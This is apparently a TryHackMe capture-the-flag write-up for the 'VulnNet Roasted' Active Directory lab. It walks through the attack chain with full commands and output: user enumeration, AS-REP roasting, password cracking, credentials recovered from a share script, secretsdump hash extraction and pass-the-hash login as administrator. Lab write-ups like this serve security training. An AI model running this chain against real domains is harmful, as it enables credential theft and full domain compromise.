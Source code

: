 # THM: VulnNet Roasted

## Reconnaissance

An nmap nse ldap script found the domain name of the system. 

```
PORT    STATE SERVICE REASON          VERSION
389/tcp open  ldap    syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=vulnnet-rst,DC=local
|       ldapServiceName: vulnnet-rst.local:win-2bo8m1oe1m1$@VULNNET-RST.LOCAL

```
Two intersting SMB shares were able to read read anonymously. 

```
VulnNet-Business-Anonymous                        	READ ONLY	VulnNet Business Sharing
	.\VulnNet-Business-Anonymous\*
	dr--r--r--                0 Fri Mar 12 22:21:04 2021	.
	dr--r--r--                0 Fri Mar 12 22:21:04 2021	..
	fr--r--r--              758 Fri Mar 12 22:21:04 2021	Business-Manager.txt
	fr--r--r--              654 Fri Mar 12 22:21:04 2021	Business-Sections.txt
	fr--r--r--              471 Fri Mar 12 22:21:04 2021	Business-Tracking.txt
	VulnNet-Enterprise-Anonymous                      	READ ONLY	VulnNet Enterprise Sharing
	.\VulnNet-Enterprise-Anonymous\*
	dr--r--r--                0 Fri Mar 12 22:19:59 2021	.
	dr--r--r--                0 Fri Mar 12 22:19:59 2021	..
	fr--r--r--              467 Fri Mar 12 22:19:59 2021	Enterprise-Operations.txt
	fr--r--r--              503 Fri Mar 12 22:19:59 2021	Enterprise-Safety.txt
	fr--r--r--              496 Fri Mar 12 22:19:59 2021	Enterprise-Sync.txt
```

From these files found multiple mentions of full names which I added to a file 
called `names.txt`. I then used a simple python script I wrote to generate
possible usernames based on common conventions saving the output as
`usernames.txt`.
[Link to repo.](https://github.com/Ru57y5hck3lfrd/username-generator)

```
[kali@kali ~/thm/vulnet-roasted/exploit] python username-gen.py names.txt 
usernames.txt
```

Using kerbrute's userenum module in conjunction the usernames list I found 4
valid usernames. 
 
```
[kali@kali ~/thm/vulnet-roasted/exploit] /opt/kerbrute/kerbrute_linux_386 userenum -d vulnnet-rst.local --dc 10.10.174.217  usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/22/22 - Ronnie Flathers @ropnop

2022/11/22 15:51:06 >  Using KDC(s):
2022/11/22 15:51:06 >  	10.10.174.217:88

2022/11/22 15:51:06 >  [+] VALID USERNAME:	 a-whitehat@vulnnet-rst.local
2022/11/22 15:51:07 >  [+] VALID USERNAME:	 j-goldenhand@vulnnet-rst.local
2022/11/22 15:51:07 >  [+] VALID USERNAME:	 t-skid@vulnnet-rst.local
2022/11/22 15:51:07 >  [+] VALID USERNAME:	 j-leet@vulnnet-rst.local
2022/11/22 15:51:08 >  Done! Tested 96 usernames (4 valid) in 2.115 seconds
```

I added these known valid usernames to a file called `valid-usernames.txt`
adding Administrator, Guest, and krbtgt to the list as well.

I checked for ASREP-roastable users with Impacket's GetNPUsers, this got the
hash for the user t-skid.

```
[kali@kali ~/thm/vulnet-roasted/exploit] impacket-GetNPUsers -dc-ip 10.10.174.217 -usersfile valid-users.txt vulnnet-rst.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:8bd68bdbd1c4ceca5c9470bcad44201a$42c1755232514a74d9e026c2c08b40209dbdcbd4b389cd19e50064b67e55fb081bcd188833f644956ef75a5594a18407c4577480456f444ebab162eaa0a7b3e083a6db1c65aaec10547cded0c0f378b5f0bd6b83fbcec8878d7defcd415971c2e49fb4dbc9128147053d131bd095971c88a8ba4464a865fcf8721675869e6fb76fc13ccca55bf6eb069262a959f104d264e8ad8a1a93c46750ce978958d62f801dacafa613b7e2847f8444dccff63e5430fddfb846c66a3409aa3e1e2dad2686d8b333e9514468bd67a8beac4b6d0b5fc48e4810c2c0b7e7e34550a04f5de05e8ceef41248dcd28909dac858c1f578d43834570ffee2
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

## Initial Access

I used john to crack the t-skids password with the `rockyou.txt` wordlist. 

```
[kali@kali ~/thm/vulnet-roasted/loot] john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep asrep.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)     
1g 0:00:00:01 DONE (2022-11-22 15:59) 0.5464g/s 1736Kp/s 1736Kc/s 1736KC/s tj3929..tj0216044
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I attempted to log on with these credentials via the usual methods without
success. However, 
Using crackmapexec's smb spider module with these credentials we now have access 
to a vbs script called ResetPassword located in NETLOGON. This file contained
plain-text credentials for the user a-whitehat.

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"

```  

Using crackmapexec I confirmed that these credentials were valid. 

```
[kali@kali ~/thm/vulnet-roasted/loot] crackmapexec smb -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' -d vulnnet-rst.local 10.10.174.217         
SMB         10.10.174.217   445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.174.217   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
```

Attempts to log in with psexec failed even though this user could write to the
shares, but I was able to log on using wmiexec. 

```
[kali@kali ~/thm/vulnet-roasted/loot] impacket-wmiexec  vulnnet-rst.local/a-whitehat@10.10.174.217
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vulnnet-rst\a-whitehat

C:\>
```

This user is in the Domain Admin's group, but can't read the system.txt file.

## Privilege Escalation

I used Impacket's secretsdump to dump the hashes of all domain users.

```
[kali@kali ~/thm/vulnet-roasted/loot] impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.174.217                             
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...snip...
```

I used a Pass-The-Hash attack to log in as adminitstator via `evil-winrm`.

```
[kali@kali ~/thm/vulnet-roasted/loot] evil-winrm -u administrator -H c2597747aa5e43022a3a3049a3c3b09d -i 10.10.174.217                                     

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
vulnnet-rst\administrator
```
